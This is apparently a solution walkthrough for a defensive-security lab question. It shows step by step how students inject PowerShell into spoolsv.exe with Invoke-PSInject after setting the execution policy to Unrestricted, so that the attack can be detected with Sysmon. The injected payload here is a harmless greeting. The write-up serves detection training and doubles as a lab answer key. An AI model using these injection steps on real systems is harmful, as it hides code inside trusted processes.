 # Analyzing Evil With Sysmon & Event Logs

## Question 2

### "Replicate the Unmanaged PowerShell attack described in this section and provide the SHA256 hash of clrjit.dll that spoolsv.exe will load as your answer. "C:\\Tools\\Sysmon" and "C:\\Tools\\PSInject" on the spawned target contain everything you need."

From the previously established RDP session, students need to open `PowerShell` as administrator, and then launch `ProcessHacker.exe`:

Code: powershell

```powershell
& C:\Tools\processhacker\x64\ProcessHacker.exe
```

```shell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Users\Administrator> & C:\Tools\processhacker\x64\ProcessHacker.exe
```

![[HTB Solutions/CDSA/z. images/adea571611310fda64871422396895cd_MD5.jpg]]

Next, students need to identify the `PID` of `spoolsv.exe`:

![[HTB Solutions/CDSA/z. images/38d44acc91c8785381569a8a3aa965f5_MD5.jpg]]

Students now need to perform the Unmanaged `PowerShell` attack, using the discovered `PID` of `spoolsv.exe`:

Code: powershell

```powershell
Set-ExecutionPolicy Unrestricted -Scope CurrentUser
cd C:\Tools\PSInject\
Import-Module .\Invoke-PSInject.ps1
Invoke-PSInject -ProcId <PID> -PoshCode "V3JpdGUtSG9zdCAiSGVsbG8sIEd1cnU5OSEi"
```

```shell
PS C:\Users\Administrator> Set-ExecutionPolicy Unrestricted -Scope CurrentUser

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic at
https:/go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "N"): A
PS C:\Users\Administrator> cd C:\Tools\PSInject\
PS C:\Tools\PSInject> Import-Module .\Invoke-PSInject.ps1

Security warning
Run only scripts that you trust. While scripts from the internet can be useful, this script can potentially harm your
computer. If you trust this script, use the Unblock-File cmdlet to allow the script to run without this warning
message. Do you want to run C:\Tools\PSInject\Invoke-PSInject.ps1?
[D] Do not run  [R] Run once  [S] Suspend  [?] Help (default is "D"): R
PS C:\Tools\PSInject> Invoke-PSInject -ProcId 2300 -PoshCode "V3JpdGUtSG9zdCAiSGVsbG8sIEd1cnU5OSEi"
```